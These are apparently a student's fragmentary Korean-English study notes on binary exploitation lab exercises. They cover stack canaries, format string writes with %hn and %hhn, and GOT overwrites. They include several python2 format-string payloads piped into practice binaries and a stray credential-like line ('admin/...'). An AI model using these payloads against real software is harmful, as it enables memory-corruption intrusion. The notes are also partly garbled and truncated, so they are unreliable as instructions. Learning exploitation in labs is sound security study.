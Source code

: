 Formats11

Canary

vulfoo has canary

argc 갯수
argv 어레이로된 parameter

fread

부모 프로세스- 아들 프로세스
Format string

Format 11_32

**카나리 찾는법**
1. Printf 에서 %x.으로 메모리 주소 읽기
	objdump -d - 디스어셈블
	

%eax,-0x2c(%ebp) 
ebp-20

0x8049276

python2 -c "print 'a'*20 + '\x00\x53\x5c\x59' + 'a'*12 + 

카나리를 잘 덮었어야되

SHELL CODE로 리턴하기 >


tmpbuffer
	RET
		%x %x.... %n
			Override = 4 bytes
				1 byte = %hhn Higer 4 bytes are same just lower 4 bytes
			$hhn$nx$hhn
			![[Screenshot 2024-10-31 at 3.37.55 PM.png]]
				python2 -c "print '\x8c\xd6\xff\xff'+'\x8d\xd6\xff\xff' + '%08x.'*8 + '%hhhn%hhn'" | ./formatstring_formats5_3
				8 Bytes+ 9bytes
				=62bytes
		4,4,4,10,58x

1. 하나의 정수는 4바이트
2. 하나의 HEX는 1 바이트
3. python2 -c "print '\x8c\xd6\xff\xff'+'aaaa'+'\x8d\xd6\xff\xff' + '%09x.'*5 + '%248x' +'%hhn%92d%hhn'" | ./formatstring_formats5_32 


formats9
3 global variables


Arbitrary Overwrite
1. Code Pointers (RET Address)
2. Function Pointers
	1. C++ vtable -> Code Pointers
	2. GCC .fini section
	3. GCC .got section Global Offset Table

Lazy Binding
		1. Memory에 적재되면
		2. C library는 그 library를 어드레스에 넣고 테이블에 넣는다 2번째 함수는 그 테이블에서 뽑아서 쓴다
		3. Procedure Linkage Table (코드가 들어 있음) 쓸수 없다
		4. GOT = Table이다 (각 라이브러리의 주소가 있다) 쓸수 있다
	1. 프로그램 시작하면 아무것도 없고
	2. 처음으로 시작하면 그 주소를 찾아서 테이블에 넣는다
	3. GOT Linker+Loader(Runtime):

1. GOT 어떤 Entry가 Exit()인지 찾을것 R=GOT
	1. objdump -R
2. nm 명ㄹ여어
3. python2 -c "print '\x24\xc0\x04\x08' + '%09x.'*7 + '37420%x' + '%hn'" +  | ./formatstring_formats12_32

admin/UJE335003133